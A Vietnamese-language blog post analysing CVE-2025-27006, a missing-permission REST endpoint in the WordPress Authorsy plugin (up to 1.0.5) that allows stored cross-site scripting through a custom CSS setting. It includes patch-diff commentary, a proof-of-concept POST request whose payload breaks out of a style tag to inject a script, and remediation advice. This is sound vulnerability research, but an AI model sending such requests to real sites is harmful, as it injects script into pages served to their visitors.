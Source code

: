 # CVE-2025-27006 Analysis & POC


<!--more-->

Lỗ hổng xảy ra trên plugin **Authorsy** của WordPress trước phiên bản **1.0.6**. Điều này có thể cho phép kẻ tấn công chèn mã độc (ví dụ: script chuyển hướng, quảng cáo, hoặc các payload HTML khác) vào website, và những mã đó sẽ được thực thi khi khách truy cập mở trang.

* **CVE ID**: [CVE-2025-27006](https://www.cve.org/CVERecord?id=CVE-2025-27006)
* **Product**: [WordPress Authorsy Plugin](https://wordpress.org/plugins/authorsy/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.0.5
* **CVSS severity**: Medium (6.5)
* **OWASP Top 10**: A1: Broken Access Control
* **Required Privilege**: Subscriber

> Trong mô tả yêu cầu đặc quyền **Subscriber** nhưng thực ra có thể khai thác **Unauthenticated**.

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Authorsy**: v1.0.5(vul) và v1.0.6(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis

Ứng dụng có chức năng tùy chỉnh CSS, lưu dữ liệu trong `wp_options` và chèn trực tiếp vào `<style>` trên trang. Tuy nhiên, người dùng có thể tương tác với API để chỉnh sửa dữ liệu CSS mà **không bị kiểm soát quyền**, dẫn đến nguy cơ **Broken Access Control** và có thể **XSS** nếu chèn payload độc hại.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở 2 file **core/settings/api-settings.php** và **core/enqueue-inline/enqueue-inline.php**

{{< figure src="diff1.png" caption="Diff showing changes in enqueue-inline.php to sanitize custom CSS" >}}

{{< figure src="diff2.png" caption="Diff showing REST API permission callback changes in api-settings.php" >}}

## Exploit

### Detect XSS

Gửi **POST** request đến `/wp-json/authorsy/v1/settings` với XSS payload:

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost

Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

Ta đóng thẻ `<style>` (CSS trong head) và inject thêm thẻ `<script>` chứa XSS payload.

Truy cập một trang bất kỳ.

{{< figure src="xss.png" caption="XSS payload injected via custom CSS" >}}

👉 XSS thành công, **inspect** để xem code được thay đổi như nào.

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

## Conclusion

Lỗ hổng `CVE-2025-27006` trong plugin **Authorsy <= 1.0.5** là một ví dụ điển hình về **Broken Access Control** kết hợp với **XSS**. Nguyên nhân chính là:

1. **REST API** không kiểm soát quyền truy cập: bất kỳ user nào cũng có thể gọi `/wp-json/authorsy/v1/settings` để thay đổi các option.
2. **CSS** tùy chỉnh chưa được **sanitize**: giá trị CSS được chèn trực tiếp vào `<style>` trong `<head>`, cho phép kẻ tấn công inject payload `<script>` thông qua CSS.
   Nonce không được xử lý đúng: **verify_nonce** chỉ trả về **WP_Error** mà không ngăn code thực thi, khiến việc kiểm tra bảo mật gần như vô hiệu.

**Key takeaways**:

* **REST API** cần kiểm soát quyền: luôn sử dụng `permission_callback` hợp lý để ngăn **Broken Access Control**.
* Sanitize dữ liệu người dùng trước khi render trong HTML/CSS/JS để phòng **XSS**.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-04-cve-2025-27006/  

